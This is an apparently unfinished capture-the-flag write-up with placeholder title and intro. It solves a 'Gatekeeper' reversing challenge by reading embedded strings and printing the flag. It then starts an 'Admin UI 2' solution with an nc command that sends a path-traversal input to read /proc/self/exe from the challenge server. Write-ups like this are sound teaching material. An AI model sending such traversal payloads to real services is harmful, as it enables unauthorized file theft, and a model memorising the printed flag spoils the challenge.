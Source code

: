 # (Title TODO)

(Intro TODO)

## Gatekeeper

Only a file named `gatekeeper` is insize the ZIP attachment, what is it?

```
$ file gatekeeper
gatekeeper: ELF 64-bit LSB shared object, x86-64, [...], not stripped
$ ./gatekeeper
/===========================================================================\
|               Gatekeeper - Access your PC from everywhere!                |
+===========================================================================+
[ERROR] Login information missing
Usage: ./gatekeeper <username> <password>
```

It's usually a good idea to see what strings are embedded in the binary:

```
$ strings gatekeeper
[...]
 ~> Verifying.
0n3_W4rM
 ~> Incorrect username
zLl1ks_d4m_T0g_I
Correct!
[...]
$ ./gatekeeper 0n3_W4rM zLl1ks_d4m_T0g_I
/===========================================================================\
|               Gatekeeper - Access your PC from everywhere!                |
+===========================================================================+
 ~> Verifying.......ACCESS DENIED
 ~> Incorrect password
```

Finding the fishy strings weren't too hard, but they don't work. After staring
at the second string a few seconds, it reads `I got mad skills` backward. Is
that it?

```
$ ./gatekeeper 0n3_W4rM I_g0T_m4d_sk1lLz
/===========================================================================\
|               Gatekeeper - Access your PC from everywhere!                |
+===========================================================================+
 ~> Verifying.......Correct!
Welcome back!
CTF{I_g0T_m4d_sk1lLz}
```

Yep, that's it.

## Admin UI 2

```
$ echo -e "2\n../../../proc/self/exe\n3" | nc mngmnt-iface.ctfcompetition.com 1337 > data.bin
```
